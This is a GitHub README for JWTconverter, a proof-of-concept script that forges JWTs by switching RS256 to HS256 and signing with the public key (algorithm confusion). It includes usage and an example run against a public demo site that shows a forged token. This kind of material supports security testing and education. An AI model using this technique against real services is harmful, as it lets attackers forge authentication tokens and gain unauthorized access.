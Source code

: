# JWTconverter
Convert JWT tokens from RS256 to HS256


## Details
For a given RS256 signed JWT token, this script changes the algorithm from RS256 to HS256 and signs the altered token with the public key (that you provide). It is only used as a Proof of Concept do demonstrate a vulnerability, and thus does not change the payload.


## Download via Git
Run this command to clone from Git:
```git clone https://github.com/Logeirs/JWTconverter.git```


## Usage
```
JWTconverter.py {RS256 JWT token} {Public key file}
```


## Example
Example using the following application: http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php
```
>JWTconverter.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.XlgqI4zNlEsjzGBslj-Dee5C2_WLpDSOVdjFXR4FO4TOx4RMth9mGPdIIeTQZbFyiVoQ9jkX0O3czWTr52y8qB7iJOqDKzwBoi1NPD_xoihFKHrnLxOmR1yLyjXwzlIHURRZ7f_DpPuwqnOYRbjSen4cMVBz0UhgGYe4DNcSjxNmaV2Ksfwd2exTC61g22szQIa_ISyJYU0OxIN2_Ad_XsPpmc_AQ0QcxyYCDcCEkByWUD9adCIBWlrdQhsjXASfEuP5olmvI4Znn2L33fSpAOW1G5DqozTQxyctOXvNuNm3ql9DvE5Wqntr5Z-vs6aQj32uKrVMSutayxuExVH_lQ pubkey.pem


[+] data: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0
[+] HMAC: cd44e3c58199ab7d0eafec318f01cfefa1ecba689761e12db1bc9412571c47b2
[+] signature: zUTjxYGZq30Or-wxjwHP76HsumiXYeEtsbyUElccR7I
-----------
[+] new JWT token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.zUTjxYGZq30Or-wxjwHP76HsumiXYeEtsbyUElccR7I
```
